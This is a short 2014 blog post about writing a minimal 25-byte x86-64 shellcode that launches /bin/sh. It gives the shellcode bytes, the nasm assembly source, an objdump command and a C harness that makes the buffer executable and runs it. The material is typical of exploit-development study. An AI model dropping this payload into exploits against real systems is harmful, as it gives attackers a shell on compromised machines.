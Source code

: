 ```yaml
---
layout: post
title: "Minimal x86-64 shellcode for /bin/sh?"
date: 2014-06-05 01:54:22 +0000
permalink: /2014/06/05/minimal-x86-64-shellcode-for-binsh/
category: Security
tags:
  - Exploitation
  - Security
---
```

I was trying to figure out the minimal shellcode necessary to launch /bin/sh from a 64-bit processor, and the smallest I could come up with is 25 bytes: `\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05`.

This was produced from the following source:

    BITS 64
    
    main:
      mov rbx, 0xFF978CD091969DD1
      neg rbx
      push rbx
      xor eax, eax
      cdq
      xor esi, esi
      push rsp
      pop rdi
      mov al, 0x3b  ; sys_execve
      syscall

Compile with nasm, examine the output with `objdump -M intel -b binary -m i386:x86-64 -D shellcode`.

Here's a program for testing:

    #include <sys/mman.h>
    #include <stdint.h>
    
    char code[] = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05";
    
    int main(){
      mprotect((void *)((uint64_t)code & ~4095), 4096, PROT_READ|PROT_EXEC);
      (*(void(*)()) code)();
      return 0;
    }

I'd like to find a good tool to compile my shellcode, extract as hex, build a test bin, and run it, all in one.  Should be a trivial python script, actually.
